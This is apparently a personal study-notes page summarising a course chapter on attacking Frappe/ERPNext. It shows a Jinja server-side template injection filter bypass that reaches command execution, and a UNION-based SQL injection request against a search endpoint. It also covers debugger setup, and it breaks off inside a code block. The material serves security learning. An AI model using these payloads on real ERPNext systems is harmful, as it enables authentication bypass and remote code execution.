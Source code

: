 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/ssti/ssti-payload/","noteIcon":"","created":"2025-04-15T14:11:19.609-04:00"}
---
```



















https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd



#### 5.5. Discovering SSTI

1. **Identifying the Rendering Function**:
   ```python
   # /home/frappe/frappe-bench/apps/frappe/frappe/utils/jinja.py
   def render_template(template, context, is_path=None, safe_render=True):
       from frappe import get_traceback, throw
       from jinja2 import TemplateError

       if not template:
           return ""

       if (is_path or template.startswith("templates/") or (template.endswith('.html') and '\n' not in template)):
           return get_jenv().get_template(template).render(context)
       else:
           if safe_render and ".__" in template:
               throw("Illegal template")
           try:
               return get_jenv().from_string(template).render(context)
           except TemplateError:
               throw(title="Jinja Template Error", msg="<pre>{template}</pre><pre>{tb}</pre>".format(template=template, tb=get_traceback()))
   ```

2. **Bypassing SSTI Filters**:
   ```jinja
   {% set string = "ssti" %}
   {% set class = "__class__" %}
   {% set mro = "__mro__" %}
   {% set subclasses = "__subclasses__" %}

   {% set mro_r = string|attr(class)|attr(mro) %}
   {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
   {{ subclasses_r }}
   ```

#### 5.6. Exploiting SSTI

1. **Discovering Remote Command Execution Method**:
   ```jinja
   {% set string = "ssti" %}
   {% set class = "__class__" %}
   {% set mro = "__mro__" %}
   {% set subclasses = "__subclasses__" %}

   {% set mro_r = string|attr(class)|attr(mro) %}
   {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
   {{ subclasses_r[420] }}
   ```

2. **Gaining Remote Command Execution**:
   ```jinja
   {% set string = "ssti" %}
   {% set class = "__class__" %}
   {% set mro = "__mro__" %}
   {% set subclasses = "__subclasses__" %}

   {% set mro_r = string|attr(class)|attr(mro) %}
   {% set subclasses_r = mro_r[1]|attr(subclasses)() %}
   {{ subclasses_r[420](["/usr/bin/touch","/tmp/das-ist-walter"]) }}
   ```
   ```bash
   frappe@ubuntu:~$ ls -lh /tmp/das-ist-walter 
   -rw-rw-r-- 1 frappe frappe 0 Jan 11 10:31 das-ist-walter
   ```

### Summary
- **SQL Injection**: Found by searching for SQL queries in functions exposed to unauthenticated users. Exploited to bypass authentication.
- **SSTI**: Discovered by testing template rendering functionality and bypassing input filters. Exploited to achieve remote code execution.
```

---

### Chapter Summary

In this chapter, you should learn how to:

1. **Identify and exploit SQL Injection vulnerabilities**: Understand how to discover and exploit SQL Injection to bypass authentication and gain access to sensitive areas of the application.

2. **Discover and exploit Server-Side Template Injection (SSTI)**: Learn how to identify SSTI vulnerabilities, bypass filters, and execute arbitrary code on the server.

3. **Configure debugging environments**: Set up remote debugging for the ERPNext application using Visual Studio Code to facilitate vulnerability discovery and exploitation.

4. **Understand MVC and Metadata-driven design patterns**: Grasp the concepts of MVC and Metadata-driven patterns in the context of web applications like ERPNext.

5. **Navigate HTTP routing and whitelisted functions**: Learn how HTTP routing is implemented in Frappe/ERPNext and how to identify whitelisted functions that can be exploited.

6. **Handle MariaDB query logging**: Configure MariaDB to log queries, aiding in the identification of SQL injection points.

Here's a summary of the important points with code snippets and mermaid diagrams:

### Code Snippets

#### SQL Injection

**SQL Injection Payload:**
```http
POST /api/method/frappe.utils.global_search.web_search HTTP/1.1
Host: erpnext:8000
Content-Type: application/x-www-form-urlencoded

cmd=frappe.utils.global_search.web_search&text=offsec&scope=offsec_scope" UNION ALL SELECT 1,2,3,4,5#
```

**SQL Injection Query:**
```sql
SELECT `doctype`, `name`, `content`, `title`, `route`
FROM `__global_search`
WHERE `published` = 1 AND `route` like "offsec_scope" UNION ALL SELECT 1,2,3,4,5#%" AND MATCH(`content`) AGAINST ('\"offsec\"' IN BOOLEAN MODE)
LIMIT 20 OFFSET 0
```

#### SSTI Exploitation

**SSTI Filter Bypass:**
```jinja
{% set string = "ssti" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}

{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[1]|attr(subclasses)() %}
{{ subclasses_r[420](["/usr/bin/touch","/tmp/das-ist-walter"]) }}
```

#### Setting Up Remote Debugging

**Installing ptvsd:**
```bash
frappe@ubuntu:~$ /home/frappe/frappe-bench/env/bin/pip install ptvsd
```

**Editing Procfile:**
```bash
frappe@ubuntu:~$ cat /home/frappe/frappe-bench/Procfile
#web: bench serve --port 8000
```

**Enabling Debugger in app.py:**
```python
import ptvsd
ptvsd.enable_attach(redirect_output=True)
print("Now ready for the IDE to connect to the debugger")
ptvsd.wait_for_attach()

